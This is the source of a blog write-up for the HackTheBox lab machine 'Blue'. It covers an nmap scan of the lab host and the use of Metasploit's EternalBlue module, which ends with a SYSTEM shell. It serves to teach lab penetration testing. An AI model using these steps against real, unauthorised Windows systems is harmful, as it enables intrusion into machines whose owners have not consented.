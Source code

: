 ```yaml
---
title: "HackTheBox - Blue"
author: Nasrallah
description: ""
date: 2022-07-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, rce, smb]
img_path: /assets/img/hackthebox/machines/blue
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Blue](https://app.hackthebox.com/machines/Blue) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.40 (10.10.10.40)
Host is up (0.14s latency).                                                    
Not shown: 991 closed tcp ports (reset) 
PORT      STATE SERVICE      VERSION                                                                                                                          
135/tcp   open  msrpc        Microsoft Windows RPC                                                                                                            
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                     
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC           
49153/tcp open  msrpc        Microsoft Windows RPC             
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC                             
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-09T10:02:42
|_  start_date: 2022-08-09T09:57:35
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-09T11:02:39+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s
```

We have a windows machine with SMB open, as well as other things.

# **Foothold**

Since the machine is named `Blue` and we have a windows machine, i directly though of the Eternal-Blue exploit.

Let's fire up `Metasploit` and use the `ms17_010_eternalblue` module.

![](1.png)

Now we need to set the required option.

```
set LHOST tun0

set rhosts 10.10.10.40
```

Type `exploit` to run the module.

![](2.png)

Great! We got a shell, and we're Authority System so no need for privilege escalation.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).